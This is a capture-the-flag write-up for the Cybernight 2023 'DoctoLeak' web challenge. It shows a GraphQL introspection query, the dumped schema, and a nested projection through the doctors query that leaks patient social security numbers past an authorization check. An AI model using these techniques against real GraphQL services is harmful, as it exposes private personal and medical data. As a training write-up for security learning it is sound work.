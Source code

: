 ```yaml
---
title: "DoctoLeak"
subtitle: "Cybernight 2023 - DoctoLeak"
date: 2023-11-25T15:56:22+01:00
draft: false
tags: ['Web']
categories:
  - 'Writeups'
  - 'Cybernight 2023'
---
```


## Category

> Web

## Description

> Je dois trouver le numéro de sécurité sociale du Patient 0 !
>
> C'est une question de vie ou de mort...

## Link

[DoctoLeak](http://doctoleak2.chall.malicecyber.com/)

## Difficulty

**MEDIUM** - 100 points

- Author: **Sysdream**
---

![img.png](img.png)

## Write up

The first interesting thing I found looking to the website was the link as the bottom: [Check our API](https://doctoleak2.chall.malicecyber.com/graphql)

Which leads to a **/graphql** page. At this point, I was sure it was all about exploiting some confidentiality issue in a graphql query.

Using the book from [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) I was able to run some Introspection inside Burpsuite repeater.

I recover the schema using query like ``?query={__schema{types{name,fields{name}}}}``:

```json
{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"doctor"},{"name":"doctors"},{"name":"patients"},{"name":"patient"},{"name":"allrendezvous"},{"name":"rendezvous"}]},{"name":"String","fields":null},{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]},{"name":"ID","fields":null},{"name":"Patient","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"doctor"},{"name":"ssn"}]},{"name":"Rendezvous","fields":[{"name":"id"},{"name":"date"},{"name":"confirmed"}]},{"name":"Boolean","fields":null},{"name":"JSON","fields":null},{"name":"Mutation","fields":[{"name":"signIn"}]},{"name":"Token","fields":[{"name":"token"}]},{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null},{"name":"CacheControlScope","fields":null},{"name":"Upload","fields":null},{"name":"Int","fields":null}]}}}
```
I could understand that the database stores some doctors, patients, rendezvous, etc.

I tried to directly query the patient with id:0 with ``?query={patient(id:0){ssn}}`` but it returns an **UNAUTHORIZED** error, because we were not authenticated.

A mutation signIn exists, avec Doctors have a password field, so maybe we could manage to recover a password? I did not succeed in this way.

However, if we take a closer look at the **Doctor** type:

```json
{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]}
```

A doctor possessed id, a firstName, but most importantly: **a list of patients**

Through a Doctor query, we can possibly manage to search for patients ssn.

Happily (or not?) this complete request was availible on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#extract-data-using-projections), using a **projection** attack.

We use an option inside a list of doctors, to search for **patients.ssn**:

{{< image src="img_1.png" caption="SSN leaks" title="SSN leaks" alt="SSN leaks" >}}

Here is our first leak! I could not manage to attach the id of the patient with the ssn, it returned the error ``Cannot return null for non-nullable field Patient.id``

However, our previous request contains that data at the bottom:

```json
{"firstName":"Admin","lastName":"Admin","id":"634d5b00dae927003e214578","patients":[{"ssn":"b16cff8b-4a5a-41c8-8545-d9880fd7aae5"}]}
```

The ssn was the one we were looking for.

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `MALICE{b16cff8b-4a5a-41c8-8545-d9880fd7aae5}`
{{< /admonition >}}
